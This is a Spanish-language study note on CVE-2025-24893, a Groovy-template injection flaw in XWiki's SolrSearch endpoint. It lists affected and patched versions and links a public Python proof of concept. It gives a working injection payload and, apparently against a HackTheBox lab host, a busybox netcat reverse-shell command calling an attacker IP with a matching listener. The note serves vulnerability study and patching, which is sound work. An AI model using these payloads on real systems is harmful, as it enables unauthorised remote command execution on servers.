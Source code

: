 # XWiki RCE (CVE-2025-24893): Ejecución Remota de Código mediante inyección Groovy

Este apunte documenta la vulnerabilidad **CVE-2025-24893** en **XWiki**, que permite la ejecución remota de código (RCE) en servidores afectados. El fallo se debe a un endpoint que procesa entradas manipuladas con **plantillas Groovy**, lo que permite a un atacante inyectar y ejecutar comandos arbitrarios en el sistema.

---

## ¿Qué es XWiki?

**XWiki** es una plataforma de wiki de código abierto escrita en Java.
Se utiliza para crear, organizar y compartir contenido colaborativo, principalmente en entornos empresariales y de documentación.
Cuenta con un motor extensible que soporta macros, plantillas y diferentes lenguajes de scripting, entre ellos **Groovy**.

---

## Versiones afectadas

* `>= 5.3-milestone-2, < 15.10.11`
* `>= 16.0.0-rc-1, < 16.4.1`

### Versiones parcheadas

* `15.10.11`
* `16.4.1`

---

## La vulnerabilidad (CVE-2025-24893)

La vulnerabilidad reside en el endpoint vulnerable:

```
/xwiki/bin/get/Main/SolrSearch?media=rss&text=
```

Este endpoint procesa parámetros que pueden contener **plantillas XWiki con Groovy**, lo que habilita a un atacante a inyectar código Groovy malicioso.
Mediante la función `execute()`, es posible ejecutar comandos arbitrarios en el sistema operativo donde corre XWiki.

### Ejemplo de payload inyectado

```groovy
}}}{{async async=false}}{{groovy}}"id".execute(){{/groovy}}{{/async}}
```

Este código abre un bloque Groovy dentro de XWiki, ejecuta el comando `id` en el sistema, y devuelve la salida.

---

## Flujo del ataque

1. El atacante construye un payload malicioso en Groovy.
2. El payload se inyecta en el parámetro `text` del endpoint vulnerable.
3. El servidor vulnerable procesa el payload, interpreta el código Groovy y ejecuta el comando en el sistema.
4. El atacante obtiene RCE.

---

## Script de explotación

Existe un PoC público en Python que automatiza este proceso, enviando el payload al endpoint vulnerable:

**Exploit.py:** [https://github.com/gunzf0x/xwiki-rce-poc/blob/main/exploit.py](https://github.com/gunzf0x/xwiki-rce-poc/blob/main/exploit.py)

### Parámetros:

* `-t`: URL del servidor XWiki vulnerable
* `-c`: Comando del sistema a ejecutar
---

## Ejemplo práctico (reverse shell)

Para obtener una shell remota, se puede usar `busybox` (si está disponible en el objetivo):

```bash
python3 exploit.py -t "http://wiki.editor.htb" -c "busybox nc 10.10.14.4 443 -e /bin/bash"
```

En la máquina atacante:

```bash
nc -lvnp 443
```

📌 Nota: Sin `busybox`, algunos binarios como `nc -e` pueden no estar presentes o estar restringidos en la máquina víctima.

---

## Resumen

* **Vulnerabilidad**: Inyección de código Groovy en XWiki → RCE.
* **Impacto**: Ejecución de comandos arbitrarios en el servidor afectado.
* **Mitigación**: Actualizar a las versiones parcheadas `15.10.11` o `16.4.1`.
* **Explotación típica**: Uso de payloads Groovy para ejecutar comandos o abrir una reverse shell.
* **Recursos / PoC**: [PoC exploit.py en GitHub](https://github.com/gunzf0x/xwiki-rce-poc/blob/main/exploit.py).
